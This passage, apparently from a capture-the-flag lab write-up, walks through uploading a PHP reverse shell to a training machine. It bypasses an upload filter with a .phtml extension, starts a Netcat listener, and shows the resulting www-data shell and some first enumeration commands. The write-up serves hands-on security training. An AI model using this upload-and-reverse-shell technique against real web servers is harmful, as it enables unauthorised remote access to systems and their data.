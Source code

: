 The most used reverse shell is [pentestmoney](https://github.com/pentestmonkey/php-reverse-shell)'s and editing the values of `$ip` and `$port` at the very top of the script.

Check your IP address with `ip addr show` and copy the `tun0` IP address shown. Optionally, change the port to a random port, for example, `4444` or `9999` if you want.

Make sure to save the file with the `.phtml` extension or use `mv <file>.php <file>.phtml`.

Before uploading the file, listen to incoming connections using your preferred listener. I will be using Netcat, one of the tools of the Nmap suite!

In a terminal run the command `nc -lnvp 4444` where:
* `- l` - Listen mode for inbound connects.
* `- n ` - Numeric-only IP addresses.
* `- p` - The local port number.
* `- v` - Verbose output (Additional context and information).

Now upload the reverse shell and navigate to the file you just uploaded! 

A little hint: All **uploads** are normally uploaded in the same type of directory.

A bigger hint: Navigate to `<directory-found>/uploads/`

Now select the reverse shell and take a look at your Netcat listener!

```
nc -lnvp 4444
listening on [any] 4444 ...
connect to [<ip-address>] from (UNKNOWN) [10.10.210.115] 47704
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 06:54:29 up 39 min,  0 users,  load average: 0.00, 0.00, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

Let's take a look around. What is our current directory? What other users exist in the machine?

```
$ pwd
/
$ ls
bin
boot
dev
etc
home
initrd.img
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
$ ls home
****
```